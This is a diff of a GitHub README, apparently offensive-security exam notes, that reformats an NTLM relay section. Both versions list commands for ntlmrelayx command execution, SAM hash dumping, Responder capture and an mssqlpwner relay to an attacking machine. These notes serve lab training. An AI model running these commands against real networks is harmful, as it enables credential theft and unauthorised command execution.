

Before and after one commit to Extravenger/OSEPlayground, a Markdown page: README.md, the part around the change. Rendered like a GitHub page.

````diff
--- a/README.md
+++ b/README.md
@@ -171,9 +171,8 @@ Enumerate an MSSQL instance:
 
 Relay authentication:
 *Note: three tools involved: Responder,ntlmrelayx and mssqlpwner*
-```
-ntlmrelayx.py --no-http-server -smb2support -t 192.168.156.6 -c 'command here'
-ntlmrelayx.py --no-http-server -smb2support -t smb://172.16.192.152 (gonna dump SAM hashes automatically)
-sudo responder -I tun0 (make sure SMB is turned OFF in /etc/responder/Responder.conf)
-mssqlpwner user:pass@<MSSQL INSTANCE IP> -windows-auth ntlm-relay <OUR ATTACKING MACHINE>
-```
+
+Command Execution: `ntlmrelayx.py --no-http-server -smb2support -t 192.168.156.6 -c 'command here'`
+SAM Dump: `ntlmrelayx.py --no-http-server -smb2support -t smb://172.16.192.152`
+Fire up responder: `sudo responder -I tun0` (make sure SMB is turned OFF in /etc/responder/Responder.conf)
+Perform the attack: `mssqlpwner user:pass@<MSSQL INSTANCE IP> -windows-auth ntlm-relay <OUR ATTACKING MACHINE>`
````
